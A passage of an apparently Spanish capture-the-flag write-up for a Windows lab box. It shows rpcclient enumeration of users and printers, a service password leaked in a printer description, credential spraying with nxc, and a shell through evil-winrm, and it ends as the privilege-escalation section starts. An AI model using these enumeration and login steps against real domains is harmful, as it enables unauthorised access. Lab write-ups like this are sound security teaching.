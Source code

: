 ```shell
user:[mberbatov] rid:[0x1db1]
user:[astein] rid:[0x1db2]
user:[dmuir] rid:[0x1db3]
```

Vemos un grupo interesante.
`group:[IT_Accounts] rid:[0x644]`

Pero no tiene descripción.
```shell
rpcclient $> querygroup 0x644
	Group Name:	IT_Accounts
	Description:	
	Group Attribute:7
	Num Members:2
```

Como antes hemos visto que existe un servicio de impresión, podemos enumerar las impresoras y encontramos una credencial.
```shell
rpcclient $> enumprinters
	flags:[0x800000]
	name:[\\10.129.2.5\HP-MFT01]
	description:[\\10.129.2.5\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
	comment:[]
```

con `nxc` 
```shell
v1ce$1 STATUS_LOGON_FAILURE
SMB         10.129.2.5      445    FUSE             [+] fabricorp.local\svc-print:$fab@s3Rv1ce$1
```

Y este usuario tiene permiso para conectarse mediante WinRM ~~(por la cara)~~
```shell
$ nxc winrm 10.129.2.5 -u svc-print -p '$fab@s3Rv1ce$1' 
WINRM       10.129.2.5      5985   FUSE             [*] Windows 10 / Server 2016 Build 14393 (name:FUSE) (domain:fabricorp.local)
WINRM       10.129.2.5      5985   FUSE             [+] fabricorp.local\svc-print:$fab@s3Rv1ce$1 (Pwn3d!)
```

## Connecting via WinRM
```shell
$ evil-winrm -i 10.129.2.5 -u svc-print -p '$fab@s3Rv1ce$1'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-print\Documents> whoami
fabricorp\svc-print

# Privilege Escalation 
Vemos que este usuario tiene el privilegio SeLoadDriverPrivilege, este privilegio ya lo he explotado varias veces, podemos hacer uso de un driver vulnerable especialmente diseñado para escalar privilegios y convertirnos en administradores.

```shell
*Evil-WinRM* PS C:\Users> whoami /priv

```